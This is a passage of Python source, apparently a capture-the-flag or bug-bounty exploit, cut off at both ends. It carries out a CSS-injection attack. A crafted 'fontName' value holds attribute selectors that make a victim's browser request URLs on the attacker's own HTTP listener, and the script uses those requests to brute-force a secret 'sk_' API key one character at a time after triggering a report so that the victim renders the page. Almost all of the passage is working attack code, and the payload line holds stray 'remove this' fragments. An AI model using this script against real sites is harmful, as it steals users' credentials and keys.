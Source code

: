 ```python
            hits.put(candidate)
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b"OK")

def start_http_server():
    with socketserver.TCPServer((LOCAL_HOST, LOCAL_PORT), ExfilRequestHandler) as httpd:
        print(f"[*] Listening on {LOCAL_HOST}:{LOCAL_PORT}")
        httpd.serve_forever()

def send_set_font(payload):
    data = {"fontName": payload}
    headers = {
        "User-Agent": "Mozilla/5.0",
        "Content-Type": "application/x-www-form-urlencoded",
        "Cookie": COOKIE
    }
    return requests.post(SET_FONT_URL, data=data, headers=headers)

def send_report():
    json_data = {"username": USERNAME}
    headers = {
        "User-Agent": "Mozilla/5.0",
        "Content-Type": "application/json",
        "Cookie": COOKIE
    }
    return requests.post(REPORT_URL, json=json_data, headers=headers)

def brute_force_key():
    key = "sk_"
    while True:
        found = False
        for c in charset:
            candidate = key + c
            payload = f"';#api-key-container[data-internal-api-key^=\"{candidate}\"]{ remove this {background-image: url(\"{LOCAL_SERVER}/{candidate}\")} remove this};"

            # Step 1: Set font with payload
            send_set_font(payload)

            # Step 2: Trigger the report (which makes the victim render CSS)
            send_report()

            print(f"[*] Trying {candidate}...")

            try:
                # Wait a few seconds for request to arrive
                hit = hits.get(timeout=5)
                if hit == candidate:
                    print(f"[+] Found next char: {c}")
                    key += c
                    found = True
                    break
            except queue.Empty:
                pass

        if not found:
            print("[*] No more hits. Brute-force finished.")
            break
        print(f"[+] Current key: {key}")

if __name__ == "__main__":
    # Start local HTTP server in background
```